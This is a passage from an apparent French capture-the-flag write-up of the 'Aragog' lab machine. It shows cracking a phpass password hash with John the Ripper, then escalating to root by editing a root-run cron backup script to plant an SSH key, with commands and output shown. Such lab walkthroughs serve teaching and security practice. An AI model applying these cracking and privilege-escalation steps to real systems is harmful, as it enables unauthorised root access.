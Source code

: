 Voilà qui est mieux. Ça se casse en moins de deux avec JtR :  

```plain
$ ./john --format=phpass --wordlist=rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (phpass [phpass ($P$ or $H$) 128/128 AVX 4x3])
Cost 1 (iteration count) is 8192 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password123      (?)     
Use the "--show --format=phpass" options to display all of the cracked passwords reliably
Session completed.
```

Je switche sur l'utilisateur *hagrid98* via la commande *su*. En cherchant les fichiers de cet utilisateur sur le système j'ai trouvé */opt/.backup.sh*.  

Ce script semble destiné à effectuer une backup des fichiers web (une simple commande *cp*) mais comment ce script se lance sans sudo ni sans entrée dans la crontab ?  

J'ai finalement eu recours à [pspy](https://github.com/DominicBreuker/pspy) pour monitorer les processus sur le système.  

L'utilisateur root doit avoir une entrée dans sa crontab :  

```plain
2021/11/25 20:48:01 CMD: UID=0    PID=3736   | /usr/sbin/CRON -f 
2021/11/25 20:48:01 CMD: UID=0    PID=3737   | /usr/sbin/CRON -f 
2021/11/25 20:48:01 CMD: UID=0    PID=3738   | /bin/sh -c bash -c "/opt/.backup.sh" 
2021/11/25 20:48:01 CMD: UID=0    PID=3739   | /bin/bash /opt/.backup.sh 
```

Avec cette info il n'y a plus qu'à éditer le script pour lui faire ajouter ma clé publique SSH dans le fichier *authorized\_keys* de root. On attend un peu et on se connecte :  

```plain
ssh root@192.168.2.13
Enter passphrase for key '/home/devloop/.ssh/id_rsa': 
Linux Aragog 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
root@Aragog:~# id
uid=0(root) gid=0(root) groups=0(root)
root@Aragog:~# ls
horcrux2.txt
root@Aragog:~# cat horcrux2.txt 
  ____                            _         _       _   _                 
 / ___|___  _ __   __ _ _ __ __ _| |_ _   _| | __ _| |_(_) ___  _ __  ___ 
| |   / _ \| '_ \ / _` | '__/ _` | __| | | | |/ _` | __| |/ _ \| '_ \/ __|
| |__| (_) | | | | (_| | | | (_| | |_| |_| | | (_| | |_| | (_) | | | \__ \
 \____\___/|_| |_|\__, |_|  \__,_|\__|\__,_|_|\__,_|\__|_|\___/|_| |_|___/
                  |___/                                                   

Machine Author: Mansoor R (@time4ster)
Machine Difficulty: Easy
Machine Name: Aragog 
Horcruxes Hidden in this VM: 2 horcruxes

You have successfully pwned Aragog machine.
Here is your second hocrux: horcrux_{MjogbWFSdm9MbyBHYVVudCdzIHJpTmcgZGVTdHJPeWVkIGJZIERVbWJsZWRPcmU=}
```
